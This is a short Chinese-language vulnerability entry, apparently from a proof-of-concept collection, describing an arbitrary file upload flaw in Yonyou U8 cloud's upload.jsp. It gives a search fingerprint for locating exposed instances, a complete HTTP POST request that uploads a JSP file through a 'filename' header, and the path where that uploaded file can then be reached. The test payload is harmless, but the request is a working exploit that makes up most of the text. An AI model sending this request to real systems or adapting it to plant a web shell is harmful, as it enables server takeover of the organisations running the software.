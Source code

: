 # 

# 用友 U8 cloud upload.jsp 任意文件上传漏洞

## 漏洞描述

用友 U8 cloud upload.jsp 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 U8 cloud

## 网络测绘

```
"开启U8 cloud云端之旅"
```

## 漏洞复现

登陆页面

![image-20231116141405041](images/image-20231116141405041.png)

poc

```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```

![image-20231116141354722](images/image-20231116141354722.png)

```
/linux/Test.jsp
```


